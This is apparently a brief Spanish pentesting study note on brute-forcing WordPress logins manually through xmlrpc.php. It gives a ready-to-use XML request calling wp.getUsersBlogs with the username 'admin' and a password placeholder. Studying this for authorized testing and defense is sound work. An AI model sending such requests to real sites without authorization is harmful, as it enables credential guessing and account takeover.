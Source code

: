 - Tags: #wordpress #herramientas 
---
Si quisiéramos aplicar fuerza bruta en un [[Wordpress]] de la misma forma que hace [[Wordpress]] PERO DE LA FORMA MANUAL PARA DESCUBRIR credenciales válidas, sería nesecario tramitar una perición por el método POST al archi xmlrpc.php tramitando una estructura deXML tal que sería: 
```
<?xml version=\"1.0\" encoding=\"utf-8\"?>
<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value>admin</value></param>
<param><value>$password</value></param>
</params>
</methodCall>
```